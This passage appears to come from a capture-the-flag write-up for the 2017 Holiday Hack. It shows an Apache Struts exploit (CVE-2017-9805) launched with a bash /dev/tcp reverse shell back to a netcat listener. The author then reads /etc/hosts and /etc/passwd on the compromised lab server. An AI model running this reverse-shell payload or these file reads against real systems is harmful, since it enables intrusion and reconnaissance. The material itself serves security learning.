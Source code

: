 In that traffic, I saw that I was actually getting connections back not from the host that the webserver is listening on (`35.185.84.51`), but actually a different IP address (`35.196.226.77`), BUT I had proven that I could get connections out of that server and back to my local host system!

In order to take advantage of that vulnerability, I started a local netcat listener on port 5555:

```
root@kali:~# nc -l -p 5555
```

And in a separate terminal, started a bash reverse shell from that host back to my local host on the listening port 5555

```
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'bash -i >& /dev/tcp/xx.xx.xx.xx/5555 0>&1'
```

Voila! We have a prompt!

```
alabaster_snowball@l2s:/tmp/asnow.3lNOwcLHyQVgcfuNB93khBHs$
```

From there we can grab the /etc/hosts file (to find more targets):

```
alabaster_snowball@l2s:/tmp/asnow.3lNOwcLHyQVgcfuNB93khBHs$ cat /etc/hosts
cat /etc/hosts
127.0.0.1	localhost l2s dev.northpolechristmastown.com l2s.northpolechristmastown.com
10.142.0.5	mail.northpolechristmastown.com ewa.northpolechristmastown.com
10.142.0.13	eaas.northpolechristmastown.com
10.142.0.6	edb.northpolechristmastown.com
::1		localhost l2s ip6-localhost ip6-loopback
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters

10.142.0.3 hhc17-apache-struts1.c.holidayhack2017.internal hhc17-apache-struts1  # Added by Google
169.254.169.254 metadata.google.internal  # Added by Google
```

And the `/etc/passwd` file:

```
alabaster_snowball@l2s:/tmp/asnow.3lNOwcLHyQVgcfuNB93khBHs$ cat /etc/hosts
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
uuidd:x:105:109::/run/uuidd:/bin/false
ntp:x:106:110::/home/ntp:/bin/false
```